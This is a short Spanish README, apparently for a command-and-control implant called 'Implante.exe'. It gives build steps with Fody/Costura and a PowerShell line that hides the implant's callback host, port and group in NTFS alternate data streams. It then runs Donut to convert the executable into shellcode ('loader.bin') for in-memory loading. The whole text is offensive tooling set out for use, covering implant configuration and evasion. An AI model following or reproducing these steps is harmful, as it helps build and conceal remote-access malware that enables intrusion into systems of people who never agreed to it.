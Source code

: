
Instalar using Newtonsoft.Json;

Instalar fody y costura.fody
```
dotnet add package Fody --version 6.8.0
dotnet add package Costura.Fody --version 5.7.0
```

Compilar

## Establecer host puerto y grupo
```powershell
Set-Content -Path ".\Implante.exe:Route" -Value "127.0.0.1"; Set-Content -Path ".\Implante.exe:Port" -Value "4000"; Set-Content -Path ".\Implante.exe:Group" -Value "Grupo"
```
Donut
```
.\donut.exe -a 2 -f 1 -i Implante.exe -o loader.bin
```